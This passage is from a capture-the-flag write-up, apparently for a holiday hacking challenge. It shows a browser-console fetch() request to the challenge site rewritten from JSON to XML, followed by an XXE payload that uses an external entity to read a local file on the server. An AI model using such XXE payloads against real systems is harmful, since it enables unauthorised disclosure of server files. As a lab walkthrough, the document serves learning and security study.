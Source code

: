 This request sends JSON but it would be interesting to see if we can send the same request using XML instead, and get the same response back from the princess. Using a JSON to XML converter like https://www.convertjson.com/json-to-xml.htm, we get a sample XML:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<root>
  <imgDrop>img2</imgDrop>
  <who>princess</who>
  <reqType>json</reqType>
</root>
```
Now we modify the request in the console to send the converted XML - don't forget to change the content-type to `application/xml` before sending.
```Javascript
fetch("https://glamtarielsfountain.com/dropped", {
  "headers": {
    "content-type": "application/xml",
    "x-grinchum": "..."
  },
"body": "<?xml version='1.0' ?><root><imgDrop>img4</imgDrop><who>princess</who><reqType>xml</reqType></root>",
  "method": "POST",
  ..
}).then(res => res.json())
  .then(console.log);
```
We get the same response as if we had done the same action from the web UI, i.e. the princess does understand the payload in XML.  We are in business!

### Stage 3: Enter XXE
Next, we want to try XXE. Using https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing, we craft an XML to trigger a file to be processed. 
```xml
<?xml version='1.0' ?>
<!DOCTYPE root [
   <!ENTITY xxe SYSTEM  'file://app/static/ringlist.txt' >
]>
<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</reqType>
</root>
```
How did we deduce this particular file path? With lots of blood, sweat and tears! No, really, it was  others kindly giving me hints after I had hit the wall for several hours. If I had to guess at the designer's mind, I think we were supposed to deduce the \$webroot/\$path,\$file.\$fileExtension, using:
- \$webroot: APP was a hint keyword, plus it's common convention for webroots
- \$path: static, this came from the "ominous eye" path (/static/images)
- \$file: RINGLIST was a hint keyword
- \$fileExtension: SIMPLE was a hint keyword, txt is the simplest format there is.
Putting it together, we get `app/static/ringlist.txt`.  Kapeech?
